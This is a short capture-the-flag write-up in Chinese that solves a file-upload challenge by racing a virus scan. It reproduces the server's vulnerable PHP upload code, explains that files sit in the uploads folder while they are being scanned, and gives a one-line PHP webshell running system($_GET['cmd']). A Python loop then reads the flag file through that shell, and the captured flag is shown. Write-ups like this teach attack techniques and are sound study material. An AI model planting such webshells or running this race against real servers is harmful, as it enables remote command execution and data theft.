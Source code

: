 ```php=
$target_dir = "uploads/";
$target_file = $target_dir . $_FILES["file"]["name"];

move_uploaded_file($_FILES["file"]["tmp_name"], $target_file);

function hasVirus($file_path) {
    # Check for Virus
    $argument = escapeshellarg($file_path);
    exec("clamscan $argument", $output, $retval);

    if ($retval != 0) {
        return true;
    } 
    return false;
}

if (hasVirus($target_file)) {
    echo "The file contains a virus!";
} else {
    echo "The file is safe to use!";
}

unlink($target_file);
```

可以看到檔案會先放到指定目錄後，進行防毒掃描，接著才會進行刪除

一般來說掃描時間較長，所以可以趁在掃描時進行讀取，即可搶在被刪除前執行

webshell:
```php=
# empty.php
<?php system($_GET['cmd']);?>
```

讀取腳本:
```python=
import requests
command = "cat%20../flag.php"

while True:
	res = requests.get(f"http://viruscheckor.rumble.host/uploads/empty.php?cmd={command}")
	if(res.status_code == 200):
		print(res.text)
```

手動上傳後，有機會成功執行有機會不能，不過成功機率很高

輸出:
```
<?php
$flag = "CSR{MIGHTSTILLBEMALLICIOUS}";
```

CSR{MIGHTSTILLBEMALLICIOUS}